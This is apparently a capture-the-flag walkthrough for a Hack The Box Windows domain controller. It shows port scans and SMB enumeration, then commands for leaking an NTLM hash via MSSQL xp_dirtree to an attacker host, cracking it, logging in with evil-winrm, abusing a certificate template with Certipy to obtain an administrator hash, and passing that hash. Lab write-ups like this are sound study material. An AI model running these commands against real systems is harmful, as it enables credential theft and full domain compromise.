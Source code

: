 # Rust-Scan:

Open 10.129.228.253:53
Open 10.129.228.253:88
Open 10.129.228.253:135
Open 10.129.228.253:139
Open 10.129.228.253:389
Open 10.129.228.253:445
Open 10.129.228.253:464
Open 10.129.228.253:593
Open 10.129.228.253:636
Open 10.129.228.253:1433
Open 10.129.228.253:3268
Open 10.129.228.253:3269
Open 10.129.228.253:5985
Open 10.129.228.253:9389
Open 10.129.228.253:49667
Open 10.129.228.253:49691
Open 10.129.228.253:49692
Open 10.129.228.253:49711
Open 10.129.228.253:49715


# Nmap:

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-13 18:13:41Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.1776
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

# smbmap:

		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN           Disk      Remote Admin
        C$              Disk      Default share
        IPC$             IPC      Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 


$ smbclient \\\\$IP\\Public -N -c

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 19 17:21:25 2022
  ..                                  D        0  Sat Nov 19 17:21:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 19:09:43 2022


# MSSQL - SMB STEAL HASH:

xp_dirtree '\\<attacker_IP>\any\thing'

# Capture hash
sudo responder -I tun0

hashcat -a 0 -m 5600  hash.txt /usr/share/wordlists/rockyou.txt

evil-winrm -u sql_svc  -p '<password-cracked>'  -i $IP

cd  C:/SQLServer/Logs

type ERRORLOG.bak

certipy-ad find -u Ryan.Cooper -p <password> -dc-ip $IP -text -stdout -vulnerable


certipy-ad req -u Ryan.Cooper -p <password> -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -debug


sudo ntpdate $IP

certipy-ad auth -pfx administrator.pfx -debug

Got hash for 'administrator@sequel.htb': <hash>


evil-winrm -i sequel.htb -u administrator -H '<hash>'

